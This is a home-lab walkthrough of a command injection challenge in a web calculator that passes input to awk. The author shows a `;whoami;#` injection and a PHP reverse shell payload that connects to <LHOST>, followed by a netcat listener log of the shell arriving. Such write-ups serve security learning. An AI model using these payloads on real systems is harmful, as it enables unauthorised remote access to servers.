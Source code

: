 # Challange

### Website Interface:

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/626a22d3-af41-4538-9ebc-564b6f540c1e)

- When entering values in the input boxes, a corresponding output is generated. 

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/17353841-fe1c-4caf-8e36-3529d6b1bc0d)

- Upon inspecting the source code, I discovered certain elements or information.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/3c492101-a74e-4a5d-85b0-4ba9d25a84f9)

- It appears that I can potentially use the output.
- By entering the "random" value or input, I encountered a specific response or behaviour.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/4631c4f9-cff0-4e6f-888a-6f4f66549c38)

```html
<div class="p-5 mb-4 bg-light rounded-3" style="background-color: none !important; padding: 0 !important">
		            <p class="text-center">Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}'<br>Result: 798.53
</p>
		        </div>
```
- After attempting various options, one of them eventually proved successful in achieving the desired outcome.
- After modifying the "cmd" and injecting the `whoami` command, the system responded with the output displaying the username that is www-data.

- cmd: `789)^2))}';whoami;#`

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/d5f2c033-f456-4b7c-a404-c1d047d61252)

```html
		<div class="p-5 mb-4 bg-light rounded-3" style="background-color: none !important; padding: 0 !important">
		            <p class="text-center">Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-789)^2))}';whoami;#)^2))}'<br>Result: 798.53
www-data
</p>
```
- After experimenting with different payloads, you successfully landed on a PHP reverse shell, allowing you to regain a shell connection to the system.
- cmd: `789)^2))}';php -r '$sock=fsockopen("<LHOST>",1234);exec("/bin/sh -i <&3 >&3 2>&3");';#`

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/298a2f8e-7b00-459b-823f-17606847ecbd)

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.251.186] from (UNKNOWN) [172.18.0.4] 50032
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
